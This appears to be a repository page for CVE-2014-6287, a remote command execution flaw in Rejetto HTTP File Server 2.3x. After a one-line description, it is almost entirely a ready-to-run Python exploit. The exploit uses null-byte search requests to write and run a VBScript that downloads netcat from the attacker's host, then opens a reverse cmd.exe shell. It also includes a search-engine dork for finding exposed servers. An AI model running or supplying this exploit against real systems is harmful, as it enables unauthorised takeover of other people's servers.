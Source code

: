 INFO
----

The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.

EXP
---


    # Exploit Title: HttpFileServer 2.3.x Remote Command Execution
    # Google Dork: intext:"httpfileserver 2.3"
    # Date: 04-01-2016
    # Remote: Yes
    # Exploit Author: Avinash Kumar Thapa aka "-Acid"
    # Vendor Homepage: http://rejetto.com/
    # Software Link: http://sourceforge.net/projects/hfs/
    # Version: 2.3.x
    # Tested on: Windows Server 2008 , Windows 8, Windows 7
    # CVE : CVE-2014-6287
    # Description: You can use HFS (HTTP File Server) to send and receive files.
    #     It's different from classic file sharing because it uses web technology to be more
    #     compatible with today's Internet. It also differs from classic web servers because
    #     it's very easy to use and runs "right out-of-the box". Access your remote files, over
    #     the network. It has been successfully tested with Wine under Linux.

    # Usage is: python %s <Target IP address> <Target Port Number> <Local ip where http server listen> <local port for the reverse shell>
    # EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).
    # You may need to run it multiple times for success!

    import urllib2 as url
    import sys

    if len(sys.argv) == 5:
      rhost = sys.argv[1]
      rport = sys.argv[2]
      lhost = sys.argv[3]  # local IP address
      lport = sys.argv[4]  # Local Port number
    else:
      print "[-] Something went wrong..!"
      print "[-] Usage is: python %s <Target IP address> <Target Port Number> <Local ip where http server listen> <local port for the reverse shell>" % sys.argv[0]
      print "[-] Don't forget to have an http server with will serve the nc.exe file like http://local_ip:80/nc.exe"
      sys.exit(-1)
    vbscript="C:\Users\Public\script.vbs"
    ncdownurl="http://"+lhost+"/nc.exe"
    ncpathsave="C:\\Users\\Public\\nc.exe"
    exe1 = "exec|" + "cscript.exe "+vbscript
    exe2 = "exec|" + ncpathsave+" -e cmd.exe " +lhost + " " + lport

    save='''save|'''+vbscript+'''|dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
    dim bStrm: Set bStrm = createobject("Adodb.Stream")
    xHttp.Open "GET", "'''+ncdownurl+'''", False
    xHttp.Send

    with bStrm
        .type = 1 '//binary
        .open
        .write xHttp.responseBody
        .savetofile "'''+ncpathsave+'''", 2 '//overwrite
    end with
    '''

    try:
      # create vbs wget nc.exe
      url.urlopen("http://" + rhost + ":" + rport + "/?search=%00{.+" + url.quote(save) + ".}")

      #execute_script
      url.urlopen("http://" + rhost + ":" + rport + "/?search=%00{.+" + url.quote(exe1) + ".}")

      #nc_run():
      url.urlopen("http://" + rhost + ":" + rport + "/?search=%00{.+" + url.quote(exe2) + ".}")
    except:
      print "[-] Something went wrong..!"
      print "[-] Usage is: python %s <Target IP address> <Target Port Number> <Local ip where http server listen> <local port for the reverse shell>" % sys.argv[0]
      print "[-] Don't forget to have an http server with will serve the nc.exe file like http://local_ip:80/nc.exe"
      sys.exit(-1)